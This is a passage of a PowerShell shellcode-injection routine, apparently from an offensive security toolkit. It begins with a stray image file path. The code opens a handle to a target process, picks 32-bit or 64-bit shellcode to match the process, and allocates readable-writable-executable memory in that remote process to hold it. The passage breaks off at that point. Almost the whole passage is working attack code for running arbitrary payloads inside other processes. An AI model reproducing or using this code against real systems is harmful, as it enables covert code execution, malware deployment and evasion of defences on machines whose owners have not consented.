         if (!$hProcess)
        {
            Throw "Unable to open a process handle for PID: $ProcessID"
        }

        $IsWow64 = $false

        if ($64bitCPU) # Only perform theses checks if CPU is 64-bit
        {
            # Determine is the process specified is 32 or 64 bit
            $IsWow64Process.Invoke($hProcess, [Ref] $IsWow64) | Out-Null
            
            if ((!$IsWow64) -and $PowerShell32bit)
            {
                Throw 'Unable to inject 64-bit shellcode from within 32-bit Powershell. Use the 64-bit version of Powershell if you want this to work.'
            }
            elseif ($IsWow64) # 32-bit Wow64 process
            {
                if ($Shellcode32.Length -eq 0)
                {
                    Throw 'No shellcode was placed in the $Shellcode32 variable!'
                }
                
                $Shellcode = $Shellcode32
                Write-Verbose 'Injecting into a Wow64 process.'
                Write-Verbose 'Using 32-bit shellcode.'
            }
            else # 64-bit process
            {
                if ($Shellcode64.Length -eq 0)
                {
                    Throw 'No shellcode was placed in the $Shellcode64 variable!'
                }
                
                $Shellcode = $Shellcode64
                Write-Verbose 'Using 64-bit shellcode.'
            }
        }
        else # 32-bit CPU
        {
            if ($Shellcode32.Length -eq 0)
            {
                Throw 'No shellcode was placed in the $Shellcode32 variable!'
            }
            
            $Shellcode = $Shellcode32
            Write-Verbose 'Using 32-bit shellcode.'
        }

        # Reserve and commit enough memory in remote process to hold the shellcode
        $RemoteMemAddr = $VirtualAllocEx.Invoke($hProcess, [IntPtr]::Zero, $Shellcode.Length + 1, 0x3000, 0x40) # (Reserve|Commit, RWX)
        